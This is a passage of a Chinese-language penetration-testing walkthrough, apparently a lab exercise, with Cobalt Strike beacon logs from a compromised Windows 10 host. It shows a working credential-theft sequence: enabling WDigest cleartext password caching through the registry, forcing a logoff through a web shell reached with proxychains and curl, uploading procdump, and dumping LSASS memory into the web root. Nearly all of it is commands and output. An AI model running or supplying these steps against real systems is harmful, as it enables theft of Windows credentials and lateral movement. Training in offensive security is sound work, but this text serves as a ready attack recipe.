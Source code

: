+ 接下来就是抓取明文密码了。由于Windows 10抓取密码方式不一样，需要先修改注册表等待重新登陆再截取dmp文件。

+ 修改注册表。

```bash
beacon> shell reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1 /f
[*] Tasked beacon to run: reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1 /f
[+] host called home, sent: 145 bytes
[+] received output:
操作成功完成。
```

+ 使用`logoff`命令注销windows10用户。

```bash
beacon> shell logoff
[*] Tasked beacon to run: logoff
[+] host called home, sent: 37 bytes
[+] received output:
'logoff' 不是内部或外部命令，也不是可运行的程序
或批处理文件。
```

+ 在CS无法执行`logoff`命令，只能通过命令执行。

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ proxychains4 curl 192.168.153.129/a -d "1=logoff"                    
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] Strict chain  ...  127.0.0.1:6033  ...  192.168.153.129:80  ...  OK
```

+ 上传`procdump64.exe`。

```bash
beacon> upload
[*] Tasked beacon to upload /home/kali/Desktop/procdump64.exe as procdump64.exe
[+] host called home, sent: 401322 bytes
```

+ 使用`procdump64.exe`抓取dmp文件。

```bash
beacon> shell procdump64.exe -accepteula -ma lsass.exe 1.dmp
[*] Tasked beacon to run: procdump64.exe -accepteula -ma lsass.exe 1.dmp
[+] host called home, sent: 77 bytes
[+] received output:

ProcDump v10.11 - Sysinternals process dump utility
Copyright (C) 2009-2021 Mark Russinovich and Andrew Richards
Sysinternals - www.sysinternals.com

[01:08:16] Dump 1 initiated: C:\phpstudy_pro\WWW\1.dmp

[+] received output:
[01:08:18] Dump 1 writing: Estimated dump file size is 46 MB.

[+] received output:
[01:08:19] Dump 1 complete: 46 MB written in 2.4 seconds

[+] received output:
[01:08:19] Dump count reached.
```
